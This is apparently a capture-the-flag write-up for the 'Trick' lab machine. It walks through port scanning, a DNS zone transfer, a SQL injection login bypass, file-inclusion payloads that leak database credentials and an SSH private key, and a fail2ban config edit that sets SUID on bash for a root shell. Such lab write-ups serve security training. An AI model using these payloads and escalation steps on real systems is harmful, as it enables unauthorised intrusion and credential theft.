

# Trick

## Nmap Scan

```bash
❯ nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.11.166 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 16:02 -03
Initiating SYN Stealth Scan at 16:02
Scanning 10.10.11.166 [65535 ports]
Discovered open port 22/tcp on 10.10.11.166
Discovered open port 53/tcp on 10.10.11.166
Discovered open port 25/tcp on 10.10.11.166
Discovered open port 80/tcp on 10.10.11.166
Completed SYN Stealth Scan at 16:02, 15.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.166
Host is up, received user-set (0.17s latency).
Scanned at 2022-10-29 16:02:01 -03 for 16s
Not shown: 65498 closed tcp ports (reset), 33 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
25/tcp open  smtp    syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.86 seconds
           Raw packets sent: 77297 (3.401MB) | Rcvd: 76274 (3.051MB)
```
```bash
❯ nmap -p22,25,53,80 -sCV 10.10.11.166 -oN Targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 16:05 -03
Nmap scan report for 10.10.11.166
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

I can see that the port 53 is open, so i’ll try a nslookup command.

```bash
> nslookup

> 10.10.11.166

166.11.10.10.in-addr.arpa name = trick.htb.
```

I have a domain trick.htb, I’ll put it in the /etc/hosts file like this:

```bash
10.10.11.166    trick.htb
```

Now I’ll try a dig command to the domain trick.htb.

```bash
❯ dig @10.10.11.166 trick.htb axfr

; <<>> DiG 9.16.33-Debian <<>> @10.10.11.166 trick.htb axfr
; (1 server found)
;; global options: +cmd
trick.htb.  604800 IN SOA trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.  604800 IN NS trick.htb.
trick.htb.  604800 IN A 127.0.0.1
trick.htb.  604800 IN AAAA ::1
preprod-payroll.trick.htb. 604800 IN CNAME trick.htb.
trick.htb.  604800 IN SOA trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 206 msec
;; SERVER: 10.10.11.166#53(10.10.11.166)
;; WHEN: Sun Oct 30 13:44:21 -03 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

There is a subdomain preprod-payroll.trick.htb, add it to the /etc/hosts file.

```bash
10.10.11.166    trick.htb preprod-payroll.trick.htb
```

Now I’ll go to the web pages: 10.10.11.166, trick.htb, preprod-payroll.trick.htb to see what is there.

Both trick.htb and 10.10.11.166 are the same, but preprod-payroll.trick.htb not, it has a login panel.

<center></center>

I’ll try a SQL Injection bypass:

```html
Username: admin' or 1=1-- -
Password: test
```
It was successful!

<center></center>

Let’s go to the Users area. There is a user called Enemigosss and is administrator.

There is a functionality called Edit in the Action button.

The password is hidden, but this is easy to bypass: Just go to the dev tools from your browser (Firefox in my case) and look for the password input.
pass

So, we have some credentials:

`Enemigosss:SuperGucciRainbowCake`

The password is wrong for ssh, so I need to find other way to get a shell.

If you have a look to the URL, something come to your mind… yes, Directory Path Traversal or LFI.

```html
index.php?page=users
```

After trying with ../../, ….//….// and ../../etc/pass%00 without success, I’ll try with wrappers.

In this case I used a base64 wrapper:

**http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=home**

```bash
❯ echo 'PD9waHAgaW5jbHVkZSAnZGJfY29ubmVjdC5waHAnID8+DQo8c3R5bGU+DQogICANCjwvc3R5bGU+DQoNCjxkaXYgY2xhc3M9ImNvbnRhaW5lLWZsdWlkIj4NCg0KCTxkaXYgY2xhc3M9InJvdyI+DQoJCTxkaXYgY2xhc3M9ImNvbC1sZy0xMiI+DQoJCQkNCgkJPC9kaXY+DQoJPC9kaXY+DQoNCgk8ZGl2IGNsYXNzPSJyb3cgbXQtMyBtbC0zIG1yLTMiPg0KCQkJPGRpdiBjbGFzcz0iY29sLWxnLTEyIj4NCiAgICAgICAgICAgICAgICA8ZGl2IGNsYXNzPSJjYXJkIj4NCiAgICAgICAgICAgICAgICAgICAgPGRpdiBjbGFzcz0iY2FyZC1ib2R5Ij4NCiAgICAgICAgICAgICAgICAgICAgPD9waHAgZWNobyAiV2VsY29tZSBiYWNrICIuICRfU0VTU0lPTlsnbG9naW5fbmFtZSddLiIhIiAgPz4NCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICANCiAgICAgICAgICAgICAgICAgICAgPC9kaXY+DQogICAgICAgICAgICAgICAgICAgIA0KICAgICAgICAgICAgICAgIDwvZGl2Pg0KICAgICAgICAgICAgPC9kaXY+DQoJPC9kaXY+DQoNCjwvZGl2Pg0KPHNjcmlwdD4NCgkNCjwvc2NyaXB0Pg==' | base64 -d

<?php include 'db_connect.php' ?>
<style>
   
</style>

<div class="containe-fluid">

 <div class="row">
  <div class="col-lg-12">
   
  </div>
 </div>

 <div class="row mt-3 ml-3 mr-3">
   <div class="col-lg-12">
                <div class="card">
                    <div class="card-body">
                    <?php echo "Welcome back ". $_SESSION['login_name']."!"  ?>
                                        
                    </div>
                    
                </div>
            </div>
 </div>

</div>
<script>
 
</script>
```

And something weird is in here, **db_connect.php,** this is another file, let’s try to show what’s in there.

```bash
❯ echo 'PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyZW1vJywnVHJ1bHlJbXBvc3NpYmxlUGFzc3dvcmRMbWFvMTIzJywncGF5cm9sbF9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg0K' | base64 -d

<?php 

$conn= new mysqli('localhost','remo','TrulyImpossiblePasswordLmao123','payroll_db')or die("Could not connect to mysql".mysqli_error($con));
```

And there are credentials to connect to the database.

`remo:TrulyImpossiblePasswordLmao123`

Nothing to do with this for now. Let’s move on.

The name of the database is **payroll_db** same as the URL, I’ll fuzz after the word preprod-* to see if there is something there.

```bash
❯ wfuzz -c --hc=404 --hh=5480 -t 200 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://trick.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000254:   200        178 L    631 W      9660 Ch     "marketing"                                                                                                              

Total time: 26.50046
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 188.2608
```

**marketing,** let’s add it to the /etc/hosts file.

```bash
10.10.11.166    trick.htb preprod-payroll.trick.htb preprod-marketing.trick.htb
```

Let’s inspect this web.

If I go to Services the page looks like the other one, but in this one we can see the file extension, in this case the html.

Now yes, let’s try a LFI with ….//….//etc/passwd.

Success!

Now we can extract some id_rsa, from example the michael ones. Go to:

**http://preprod-marketing.trick.htb/index.php?page=...//....//....//....//home/michael/.ssh/id_rsa**

Assign privilege 600 with:

```bash
❯ chmod 600 id_rsa
```

And now I can access to the machine with michael’s user

```bash
❯ ssh michael@10.10.11.166 -i id_rsa

michael@trick:~$ export TERM=xterm
```

The user flag is there:

```bash
michael@trick:~$ cat user.txt 
8080659f329***************
```

Let’s start with privilege escalation. At first, I’ll check my privileges with sudo -l

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

And I can restart fail2ban service like root.

What is [Fail2Ban](https://www.fail2ban.org/wiki/index.php/Main_Page)?

If you google a bit about how to escalate privileges with Fail2ban, you’ll find that there is a file called iptables-multiport.conf. In this file, the owner choose how the service will work in case of a ban. I’ll modify it to get a reverse shell like root. I’ll create a backup file first.

PD: You’ll need to do the following steps really fast, you can copy the routes in the clipboard to go faster.

```bash
michael@trick:~$ mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.bak

michael@trick:~$ cp /etc/fail2ban/action.d/iptables-multiport.bak /etc/fail2ban/action.d/iptables-multiport.conf

michael@trick:~$ nano /etc/fail2ban/action.d/iptables-multiport.conf
```

Now, modify the **/etc/fail2ban/action.d/iptables-multiport.conf** file. In action ban put:

```bash
chmod u+s /bin/bash

[snip]
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = chmod u+s /bin/bash

# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
[snip]
```

After that, run the following command to restart the service:

```bash
michael@trick:~$ sudo /etc/init.d/fail2ban restart
```

Then, you need to get banned. But how? via ssh in your local machine with 5 incorrect logins.

You can just type lot of times:

```bash
❯ ssh michael@10.10.11.166

password: ****
```
But there is another way faster than this one.

```bash
❯ sshpass -p '1234' ssh michael@10.10.11.166
```

After the five incorrect logins, your bash will be SUID, which means that we can use it with root privileges.

To see if is SUID, we can type:

```bash
michael@trick:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash (NOT SUID)
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash (SUID)

michael@trick:~$ watch -n 1 ls -l /bin/bash #To see the command ls -l /bin/bash each second
```

When this step is finished, type:

```bash
michael@trick:~$ /bin/bash -p
```
And you’ll be root

```bash
bash-5.0# cat /root/root.txt
6d6b0e403a406582b7efc4884a38590c
```
Thanks for reading!

